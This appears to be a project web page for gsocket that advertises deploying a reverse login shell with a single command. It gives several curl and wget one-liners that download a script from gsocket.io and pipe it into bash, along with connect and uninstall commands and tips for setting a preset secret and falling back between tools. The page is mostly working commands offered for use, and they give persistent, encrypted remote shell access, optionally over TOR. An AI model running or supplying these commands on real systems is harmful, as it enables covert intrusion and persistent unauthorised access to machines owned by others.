

<p class="panel-note2" markdown="1">Can no longer connect to your deployed gs-netcat? Use this command >>*S=YourSecret bash -c "$(curl -fsSL gsocket.io/**xold**)"*<< or >>*S=YourSecret bash -c "$(wget -qO- gsocket.io/**xold**)"*<< to access your old session. [Click here to update to 1.4.32 or later]({{site.github.repository_url}}/blob/master/deploy/README-update.md).</p>

Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like. 

> _This must be the quickest way to access a system_
>                                                 -- anonymous

Use either one of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```

```shell
bash -c "$(wget -qO- gsocket.io/x)"
```

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Access the remote host from anywhere in the world:
```shell
gs-netcat -s ExampleSecretChangeMe -i
```

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}

{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}

{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

Deploy with a predefined secret:
```shell
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
```

Deploy with *curl* and fallback to *wget*:
```shell
command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget -qO- gsocket.io/x)"
```

Deploy with a predefined secret. Try *curl* and fallback to *wget*:
```shell
X=ExampleSecretChangeMe && (command -v curl >/dev/null && X=$X bash -c "$(curl -fsSL gsocket.io/x)" || X=$X bash -c "$(wget -qO- gsocket.io/x)")
```
  

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>


